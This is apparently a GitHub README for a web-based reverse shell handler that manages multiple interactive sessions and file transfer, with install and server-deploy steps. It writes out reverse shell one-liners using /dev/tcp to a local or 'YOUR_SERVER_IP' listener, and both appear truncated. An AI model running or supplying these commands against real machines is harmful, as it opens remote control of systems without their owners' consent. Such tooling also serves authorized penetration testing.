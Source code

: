 # Reverse Shell Online

Fully interactive TTY Reverse Shell on web interface

- Can handle multiple session
- Multi-user support
- Download/Upload feature

# Demo

<img src="example.gif">

# Install locally

Install dependendies: ```npm i```

Start project with ```npm start```

ENV Vars:
```
PORT_HTTP=3000
PORT_TCP=1337

Example to start server on HTTP: 8080 & TCP: 6666
PORT_HTTP=8080 PORT_TCP=6666 node index.js
```

Access HTTP server: ```http://localhost:8080```

Example command to spawn a shell:

```sh -i >& /dev/tcp/127.0.0.1/6666 0>&```

# Deploy on a server

## Simple install

```sh
git clone https://github.com/Eteckq/simplershell.git;
npm i;
PORT_HTTP=5555 PORT_TCP=6666 node index.js
```

You need to allow configured port (5555 & 6666 here)

(with ufw)
```
sudo ufw allow 5555,6666
```

And access it with http://YOUR_SERVER_IP:5555

Spawn a shell with
```
sh -i >& /dev/tcp/YOUR_SERVER_IP/6666 0>&
```

## Behind a reverse proxy

ask me if you want, i'm not gonna write install steps here